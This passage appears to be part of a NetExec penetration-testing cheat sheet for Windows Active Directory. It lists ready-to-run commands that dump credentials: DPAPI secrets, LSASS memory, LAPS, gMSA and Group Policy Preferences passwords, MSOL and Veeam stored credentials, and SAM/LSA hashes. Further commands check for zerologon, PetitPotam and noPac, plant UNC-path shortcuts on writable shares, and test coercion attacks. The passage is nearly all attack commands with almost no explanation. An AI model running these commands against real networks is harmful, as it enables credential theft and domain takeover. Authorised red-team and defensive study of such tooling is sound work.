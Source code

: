 ```
netexec smb target -u username -p password --dpapi
```
### **lsass**  
```
netexec smb target -u username -p password -M lsassy
```
### **LAPS**  
```
netexec smb target -u username -p password --laps
```
### **gMSA**
```
netexec ldap target -u username -p password --gmsa
netexec ldap target -u username -p password --gmsa-convert-id id
netexec ldap domain -u username -p password --gmsa-decrypt-lsa gmsa_account
```
### **Group Policy Preferences**
```
netexec smb target -u username -p password -M gpp_password
```
### **Retrieve MSOL account password**
```
netexec smb target -u username -p password -M msol
```
### Chaining Arguments
```
netexec smb target -u username -p password --sam --lsa --dpapi
```
## **Vulnerabilities**
Check if the DC is vulnerable to zerologon, petitpotam, nopac
```
netexec smb target -u username -p password -M zerologon
netexec smb target -u username -p password -M petitpotam
netexec smb target -u username -p password -M nopac
```
## Useful Modules
### **Webdav**
Checks whether the WebClient service is running on the target
```
netexec smb target -u username -p password -M webdav 
```
### **Veeam**
Extracts credentials from local Veeam SQL Database
```
netexec smb target -u username -p password -M veeam
```
### **slinky**
Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
```
netexec smb target -u username -p password -M slinky 
```
### **coerce_plus**
Check if the Target is vulnerable to any coerce vulns (PetitPotam, DFSCoerce, MSEven, ShadowCoerce and PrinterBug)
```
netexec smb target -u username -p password -M coerce_plus -o LISTENER=tun0_ip
```